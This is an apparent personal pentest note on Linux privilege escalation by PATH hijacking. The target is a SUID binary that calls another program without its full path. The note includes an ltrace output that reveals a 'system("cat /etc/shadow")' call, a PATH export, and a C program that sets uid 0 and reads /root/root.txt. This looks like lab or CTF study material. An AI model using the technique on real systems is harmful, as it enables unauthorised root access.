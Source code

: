 # Unsanitized Path
#unsanitizedpath 

Attention:
if `sudo -l` includes `env_reset`, this can't be used.

1. Search for suid binaries (see [[Security/Offensive/Linux/LPE]])
2. Check if binary calls other binaries without full path via `ltrace` and `strace`
```
XXXXXXXXXX:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
```
3.  Add local path (`pwd`) to the start of the the `$PATH` var
`export PATH=<pwd-output>:$PATH`
5.  Place a evil bin with the name of the unsanitized bin in the current folder, for example:
demo.c:
```
#include<unistd.h>
void main(){
        setuid(0);
        setgid(0);
        system("more /root/root.txt");
}
```
`gcc demo.c -o <name-of-evil-bin>`
But any executable file can be used.
6. Run the vulnerable binary
7. `$$$`

DOES NOT WORK WITH METERPRETER SHELL! Use SSH...
